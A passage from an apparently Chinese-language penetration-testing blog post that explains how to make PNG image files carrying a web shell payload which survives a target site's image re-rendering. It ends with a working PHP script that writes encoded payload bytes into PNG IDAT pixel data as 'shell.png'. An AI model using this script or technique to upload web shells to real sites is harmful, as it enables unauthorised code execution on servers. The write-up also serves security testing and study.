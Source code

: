 ![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDLic6db2oGM1LyYBXU4SAZXj7EdZGDDRIWGQqyVqdvzA1FVuTKzAD3EQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
这个图片是带 payload 的：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDfH1W7onEUcQWdB6RNpRsgTzjicHUf8txxRIPW4fZRbk7RNCqBwoJIbw/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
然后上传到目标网站上面渲染一下再导出：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDNjyvylOOCgN1T4ia1jBS4s6BgddL5rCErjotlx7aicDKTBtmI5KL060g/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
来检测一下我们的 payload 是否还存在了：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDAQ5kq13asRkQjqL9iaRLuyzL3u2dahKJcKXDVVRm208K5Ck5drSwwXA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
哎貌似不对劲：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDR49jqTVmicfKCYRJgOFXtNoWALticxiacpUa9WQS37ypEIK2hcTbOeaicA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
这个字符串被渲染后貌似是顺序有点奇怪。这里国光踩了很多坑，查了很多资料网上都没有好的解决方案，最后国光  
将这个被目标网站渲染后的图片再上传渲染，下面是渲染后的图片：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDZ4Y8V75TQIJ5ibDuqOkhg6ITdU3NEBV7GBqkWOt3tE1Zia2ObzI7icnEw/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
赶紧来查看一下里面是否包含图马信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDcDHooBKm8e5cjCkIX2oaWSegEFI0tXwI1BssWia5WcChFxcR4PG6IgA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
阿这！居然成功了，真的是功夫不负有心人呐，不枉国光我周末大半夜的在公司加班写的这篇文章了！！！泪目  
### 写入 IDAT 数据块  
  
PNG 也是可以写入 IDAT 数据来绕过渲染的，由于快 23.00 了国光没有多余的时间研究里面细节了，这里直接引用了先知里面提供的一个脚本：  
```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./shell.png');
?>
```  
  